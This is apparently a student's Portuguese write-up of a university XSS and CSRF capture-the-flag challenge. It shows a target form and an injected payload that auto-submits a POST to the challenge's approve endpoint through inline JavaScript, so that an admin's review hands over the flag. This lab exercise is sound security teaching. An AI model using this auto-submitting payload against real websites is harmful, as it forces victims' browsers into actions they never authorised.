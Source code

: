 # Trabalho realizado na Semana #6
## XSS + CSRF CTF
Começamos por entrar no site e instantaneamente nos deparamos com informação que vamos precisar de usar mais tarde, o id da request que vai ser realizada.
![Alt text](/images/4.png)
Com esta informação em mente, inserimos um texto qualquer no input para ver onde nos levaria e após alguns cliques chegamos a http://ctf-fsi.fe.up.pt:5005, a página onde o admin realiza a avaliação dos inputs.
![Alt text](/images/1.png)
![Alt text](/images/5.png)
Após analisarmos o código da página, descobrimos que o código usado para o botão Give The Flag é o seguinte, em que (id) representa o id da  request:
```
<form method="POST" action="request/(id)/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disable="">
        
    </div>
</form>
```
Utilizando este código juntamente com algum conhecimento de javascript fizemos o seguinte código que após a parte de javascript ser lida é submetido o form que nos dará a flag do desafio:
```
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/(id)/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag">
        
    </div>
    <script>
        document.forms[0].submit();
    </script>
</form>
```
Inserindo este código na zona de input com o id indicado no topo da página após termos desativado a permição de usar javascript do site, para evitar sermos redirecionados para uma página à qual não temos acesso, somos então redirecionados para a página de avaliação do input, na qual ainda não está presente a flag devido ao site não ter atualizado por não ter acesso a javascript. Após um reload rápido, a flag que pretendiamos obter está presente no topo da página.
![Alt text](/images/3.png)
![Alt text](/images/2.png)
